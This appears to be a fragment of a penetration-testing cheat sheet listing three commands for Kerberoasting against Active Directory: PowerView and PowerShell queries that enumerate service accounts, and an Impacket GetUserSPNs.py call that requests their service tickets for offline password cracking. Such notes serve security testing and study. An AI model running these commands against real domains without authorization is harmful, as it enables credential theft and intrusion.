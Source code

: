 #### PowerView
```powershell
Get-DomainUser -SPN | Select-Object samaccountname,serviceprincipalname
```

#### Impacket - Kerberoasting
```bash
python3 GetUserSPNs.py -request example.com/user:password
```

#### PowerShell
```powershell
Get-ADUser -Filter {ServicePrincipalName -like "*"} -Properties ServicePrincipalName
```

